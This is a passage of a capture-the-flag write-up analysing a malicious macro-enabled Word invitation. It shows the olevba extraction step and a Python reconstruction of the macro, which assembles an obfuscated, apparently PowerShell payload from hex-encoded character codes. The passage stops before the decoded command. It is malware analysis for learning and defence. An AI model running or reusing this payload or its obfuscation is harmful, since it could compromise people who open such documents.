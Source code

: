 > An email notification pops up. It's from your theater group. Someone decided to throw a party. The invitation looks awesome, but there is something suspicious about this document. Maybe you should take a look before you rent your banana costume.

**Given**: Word document with macro enabled  
**Difficulty**: easy

I've solved one very similar task during the last year [HTB Business CTF](https://blog.cyberethical.me/htb-business-ctf-2021-badransomware) and you can find the detailed solution there.

First, extract the VBA macro:

```sh
olevba --deobf invitation.docm > olevba.out
```

Then using manual deobfuscation (and [code indenter](https://www.automateexcel.com/vba-code-indenter/)) and VBA documentation I've converted the VBA code to Python script.

```py
#!/usr/bin/python

def decodeAsHex(str):
    return "".join([chr(int(str[i:i+2],16)) for i in range(0, len(str), 2)])

def decodeChar(str):
    return "".join([chr(int(s)) for s in str.split(' ')])
    

def getBase64EncodedPayload():
    command = ""
    command = command + decodeChar(decodeAsHex("3734203635203636203132322036352036382034382036352037342031") + decodeAsHex("31392036352035312036352036382039392036352037362031303320363520353120363520363820383120363520373620313033"))
    command = command + decodeChar(decodeAsHex("363520313230203635203638203130") + decodeAsHex("37203635203739203635203635203131372036352036382038352036352037372031303320363520353420363520363820313033203635203737203635203635203532"))
    command = command + decodeChar(decodeAsHex("3635203638203635203635203734") + decodeAsHex("20313139203635203535203635203637203831203635203937203831203635203537203635203637203939203635203930203635203635203438203635203638203737"))
    command = command + decodeChar(decodeAsHex("3635203839203130332036362031303620363520373120373720363520373820313033203636203130372036352036") + decodeAsHex("37203438203635203737203635203635203438203635203638203737203635203930"))
    command = command + decodeChar(decodeAsHex("313033203635203132312036352036382038312036352037372036352036352035") + decodeAsHex("33203635203637203438203635203738203131392036362031303820363520373120363920363520373720313033203635"))
    command = command + decodeChar(decodeAsHex("313232203635203731203639203635203737203130332036362031303620363520363720393920363520373920313139203635203130372036352037322036352036352038302038312036352031") + decodeAsHex("3130203635"))
    command = command + decodeChar(decodeAsHex("373120313033203635203130302036352036362034382036352037322036352036352037392031303320") + decodeAsHex("36352031313820363520363720353620363520373420313139203635203535203635203637203831"))
    command = command + decodeChar(decodeAsHex("36352031303020313033203635203537203635203639203130372036352039382031303320363620353020363520373120353620363520393720313139203636203130382036352036372034") + decodeAsHex("38203635203835"))
    command = command + decodeChar(decodeAsHex("31303320363620313038203635203732203737203635203130302036352036362037382036352037312038352036352031303020363520363620313131203635203731203536203635203930") + decodeAsHex("203635203635"))
    command = command + decodeChar(decodeAsHex("313033203635203637203438203635203836203831203636203132322036352037312038") + decodeAsHex("35203635203831203130332036362031303420363520373220373720363520393720383120363620313036203635"))
    command = command + decodeChar(decodeAsHex("373020363520363520383920383120363620313231203635203732203737203635203937203831203636") + decodeAsHex("2031313720363520373120393920363520373320363520363520313136203635203730203835203635"))
    command = command + decodeChar(decodeAsHex("3939203130332036362031313220363520363720363520363520373420363520363620313139203635203637203831203635203939203131392036352031313820") + decodeAsHex("3635203731203831203635203738203635"))
```